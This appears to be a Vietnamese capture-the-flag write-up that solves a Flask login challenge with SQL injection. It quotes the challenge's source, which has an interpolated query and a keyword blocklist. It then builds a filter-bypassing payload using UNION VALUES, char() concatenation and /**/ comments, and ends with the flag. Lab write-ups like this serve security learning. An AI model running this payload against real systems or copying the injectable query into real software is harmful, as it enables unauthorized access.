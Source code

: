 # Task
![image](https://hackmd.io/_uploads/H1UGQ6Yvp.png)

## Recon
Trang web không có gì hết cả chỉ có một ô nhỏ để mình có thể điền thông tin như là username và password thôi
Vì thế ta triển khai việc đọc source code
```python=
from flask import Flask, request, render_template, make_response, redirect, url_for, session, g
import urllib
import os
import sqlite3

app = Flask(__name__)
app.secret_key = os.urandom(32)
from flask import _app_ctx_stack

DATABASE = 'users.db'

def get_db():
    top = _app_ctx_stack.top
    if not hasattr(top, 'sqlite_db'):
        top.sqlite_db = sqlite3.connect(DATABASE)
    return top.sqlite_db


try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'


@app.route('/')
def index():
    return render_template('index.html')


@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')

    uid = request.form.get('uid', '').lower()
    upw = request.form.get('upw', '').lower()
    level = request.form.get('level', '9').lower()

    sqli_filter = ['[', ']', ',', 'admin', 'select', '\'', '"', '\t', '\n', '\r', '\x08', '\x09', '\x00', '\x0b', '\x0d', ' ']
    for x in sqli_filter:
        if uid.find(x) != -1:
            return 'No Hack!'
        if upw.find(x) != -1:
            return 'No Hack!'
        if level.find(x) != -1:
            return 'No Hack!'


    with app.app_context():
        conn = get_db()
        query = f"SELECT uid FROM users WHERE uid='{uid}' and upw='{upw}' and level={level};"
        try:
            req = conn.execute(query)
            result = req.fetchone()

            if result is not None:
                uid = result[0]
                if uid == 'admin':
                    return FLAG
        except:
            return 'Error!'
    return 'Good!'


@app.teardown_appcontext
def close_connection(exception):
    top = _app_ctx_stack.top
    if hasattr(top, 'sqlite_db'):
        top.sqlite_db.close()


if __name__ == '__main__':
    os.system('rm -rf %s' % DATABASE)
    with app.app_context():
        conn = get_db()
        conn.execute('CREATE TABLE users (uid text, upw text, level integer);')
        conn.execute("INSERT INTO users VALUES ('dream','cometrue', 9);")
        conn.commit()

    app.run(host='0.0.0.0', port=8001)
```
Có thể thấy được rằng để có thể lấy được flag thì uid của chúng ta phải là 'admin' nhưng mà khổ nỗi ở trong database lại không có user nào là admin cùng với đó là bị filter khá là căng nên mình nghĩ mình có thể khiến cho chương trình chỉ hiện thị ra mỗi một cái bảng với cột uid = admin
Thử nghiệm ở trên sqlite online với câu lệnh như sau
```python=
SELECT uid FROM users WHERE uid='dream' and upw='' and level=0 union select 'admin' as uid;
```
Ra được một kết quả khá là khả quan
![image](https://hackmd.io/_uploads/H1SmS6Fwp.png)

Nhưng hệ thống đã filter cái chữ 'select' nên mình phải tìm hướng khác theo như tài liệu của sqlite thì union có thể bắt đầu với 'values'
![image](https://hackmd.io/_uploads/rJ4Rv6Kvp.png)
Như vậy câu lệnh của chúng ta sẽ đi có dạng là
```python=
SELECT uid FROM users WHERE uid='dream' and upw='' and level=0 union values('admin');
```
Nhưng tại sao union lại có thể đi cùng với values thì với sự trợ giúp của chat gpt và đi coi các write up khác thì mình có thể hiểu được như sau
Việc sử dụng ```union values``` là để tạo một bảng ảo với giá trị bên trong là chữ 'admin' và cái cột được đặt cho cái bảng ảo có cột uid chứa giá trị là admin thôi
![image](https://hackmd.io/_uploads/r1xLYTKDT.png)
Và do chữ admin cũng bị filter rồi nên là ta sẽ sử dụng char() ở trong sqlite để ép kiểu về dạng ascii và dùng || để nối chuỗi và dùng /**/ như là một cách để bypass khoảng trắng

final payload
```
uid=&upw=&level=0/**/union/**/values(char(97)||char(100)||char(109)||char(105)||char(110))
```

# Flag
![image](https://hackmd.io/_uploads/BJbfq6tDa.png)

CHH{uS1nG_5yN7@x_d149raM_93977eb6d7e28dc064a9ea22ab63d2bf}